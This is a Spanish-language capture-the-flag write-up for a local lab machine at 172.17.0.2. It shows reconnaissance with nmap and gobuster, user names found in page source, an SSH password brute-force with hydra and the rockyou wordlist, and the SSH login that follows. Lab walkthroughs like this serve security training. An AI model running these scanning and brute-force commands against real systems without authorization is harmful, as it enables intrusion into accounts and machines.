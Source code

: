 DESPLIEGUE

```
bash auto_deploy.sh obsession.tar
```


------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```

---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```


![[Pasted image 20240915192902.png]]

Tenemos el puerto 22, 80 y 21.

Miramos primero la página web:

![[Pasted image 20240915193018.png]]



A simple vista parece que no hay nada pero nos metemos en el código y...

![[Pasted image 20240915193106.png]]

juan y camilo, dos usuarios. 

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```



![[Pasted image 20240915193334.png]]


![[Pasted image 20240915193641.png]]

`russoski`, tenemos a un usuario ahora podremos hacer un hydra para buscar algún tipo de contraseña. 

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240915193920.png]]

Y ya tenemos contraseña por que nos podemos conectar por el puerto 22.

```
ssh russoski@172.17.0.2
```


No sale este error, podemos sulicionarlo conlo siguiente:

![[Pasted image 20240915194053.png]]


```
ssh-keygen -R 172.17.0.2
```

![[Pasted image 20240915194219.png]]

Y volvemos a meter :
```
ssh russoski@172.17.0.2
```

![[Pasted image 20240915194912.png]]

Ya estamos adentro. 
